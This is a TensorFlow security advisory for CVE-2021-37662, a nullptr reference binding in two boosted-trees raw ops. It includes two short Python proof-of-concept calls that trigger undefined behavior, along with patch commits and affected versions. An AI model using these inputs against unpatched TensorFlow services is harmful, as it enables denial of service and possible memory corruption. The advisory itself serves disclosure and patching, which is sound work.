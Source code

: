 ## TFSA-2021-136: Reference binding to nullptr in boosted trees

### CVE Number
CVE-2021-37662

### Impact
An attacker can generate undefined behavior via a reference binding to nullptr
in `BoostedTreesCalculateBestGainsPerFeature`:

```python
import tensorflow as tf

tf.raw_ops.BoostedTreesCalculateBestGainsPerFeature(
  node_id_range=[],
  stats_summary_list=[[1,2,3]],
  l1=[1.0],
  l2=[1.0],
  tree_complexity =[1.0],
  min_node_weight =[1.17],
  max_splits=5)
```

A similar attack can occur in `BoostedTreesCalculateBestFeatureSplitV2`:

```python
import tensorflow as tf

tf.raw_ops.BoostedTreesCalculateBestFeatureSplitV2(
  node_id_range=[],
  stats_summaries_list=[[1,2,3]],
  split_types=[''],
  candidate_feature_ids=[1,2,3,4],
  l1=[1],
  l2=[1],
  tree_complexity=[1.0],
  min_node_weight=[1.17],
  logits_dimension=5)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/boosted_trees/stats_ops.cc)
does not validate the input values.

### Patches
We have patched the issue in GitHub commit
[9c87c32c710d0b5b53dc6fd3bfde4046e1f7a5ad](https://github.com/tensorflow/tensorflow/commit/9c87c32c710d0b5b53dc6fd3bfde4046e1f7a5ad)
and in commit.
[429f009d2b2c09028647dd4bb7b3f6f414bbaad7](https://github.com/tensorflow/tensorflow/commit/429f009d2b2c09028647dd4bb7b3f6f414bbaad7).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
